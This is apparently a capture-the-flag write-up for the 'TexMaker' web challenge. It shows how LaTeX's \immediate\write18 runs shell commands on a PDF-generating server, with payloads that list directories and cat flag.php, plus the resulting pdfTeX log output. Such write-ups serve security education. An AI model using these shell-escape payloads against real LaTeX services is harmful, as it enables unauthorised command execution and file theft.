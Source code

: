 # Writeup for TexMaker (WEB90) (90)

> Solves: 183
> Description: Creating and using coperate templates is sometimes really hard. Luckily, we have a webinterace for creating PDF files. Some people doubt it's secure, but I reviewed the whole code and did not find any flaws.
> Service: https://texmaker.ctf.internetwache.org
  
We have a web interface for creating PDF files, which use pdfTeX.

![web901.png](web901.png)

In TeX we can use operation `\immediate\write18{YOUR_OWN_SHELL_COMMAND}` means, send `YOUR_OWN_SHELL_COMMAND` to the operating system for execution now. 

We tried `\immediate\write18{ls}` and had nice result in log:

```
LOG:
This is pdfTeX, Version 3.14159265-2.6-1.40.15 (TeX Live 2015/dev/Debian) (preloaded format=pdflatex)
 \write18 enabled.
entering extended mode
(./27bc8a015bd85914576a8f8a18608474.tex
LaTeX2e <2014/05/01>
Babel <3.9l> and hyphenation patterns for 2 languages loaded.
(/usr/share/texlive/texmf-dist/tex/latex/base/article.cls
Document Class: article 2014/09/29 v1.4h Standard LaTeX document class
(/usr/share/texlive/texmf-dist/tex/latex/base/size10.clo))
(/usr/share/texlive/texmf-dist/tex/latex/base/inputenc.sty
(/usr/share/texlive/texmf-dist/tex/latex/base/latin1.def))
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsmath.sty
For additional information on amsmath, use the `?' option.
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amstext.sty
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsgen.sty))
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsbsy.sty)
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsopn.sty))
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/amsfonts.sty)
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/amssymb.sty)
(/usr/share/texlive/texmf-dist/tex/latex/graphics/graphicx.sty
(/usr/share/texlive/texmf-dist/tex/latex/graphics/keyval.sty)
(/usr/share/texlive/texmf-dist/tex/latex/graphics/graphics.sty
(/usr/share/texlive/texmf-dist/tex/latex/graphics/trig.sty)
(/usr/share/texlive/texmf-dist/tex/latex/latexconfig/graphics.cfg)
(/usr/share/texlive/texmf-dist/tex/latex/pdftex-def/pdftex.def
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/infwarerr.sty)
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/ltxcmds.sty))))
No file 27bc8a015bd85914576a8f8a18608474.aux.
(/usr/share/texlive/texmf-dist/tex/context/base/supp-pdf.mkii
[Loading MPS to PDF converter (version 2006.09.02).]
) (/usr/share/texlive/texmf-dist/tex/generic/oberdiek/pdftexcmds.sty
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/ifluatex.sty)
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/ifpdf.sty))
(/usr/share/texlive/texmf-dist/tex/latex/oberdiek/epstopdf-base.sty
(/usr/share/texlive/texmf-dist/tex/latex/oberdiek/grfext.sty
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/kvdefinekeys.sty))
(/usr/share/texlive/texmf-dist/tex/latex/oberdiek/kvoptions.sty
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/kvsetkeys.sty
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/etexcmds.sty)))
(/usr/share/texlive/texmf-dist/tex/latex/latexconfig/epstopdf-sys.cfg))backups
cache
lib
local
lock
log
mail
opt
run
spool
tmp
www

(./27bc8a015bd85914576a8f8a18608474.aux) )
No pages of output.
Transcript written on 27bc8a015bd85914576a8f8a18608474.log.
```

So we executed `\immediate\write18{ls /var/www/}`

returned inside log:
```
0ldsk00lblog.ctf.internetwache.org
mess-of-hash.ctf.internetwache.org
procrastination.ctf.internetwache.org
replace-with-grace.ctf.internetwache.org
texmaker.ctf.internetwache.org
the-secret-store.ctf.internetwache.org
```

`\immediate\write18{ls /var/www/texmaker.ctf.internetwache.org/}`
returned 
```
ajax.php
assets
cleanpdfdir.sh
compile
config.php
config.php.sample
flag.php
index.php
pdf
templates
```

And finally `\immediate\write18{cat /var/www/texmaker.ctf.internetwache.org/flag.php}` returned flag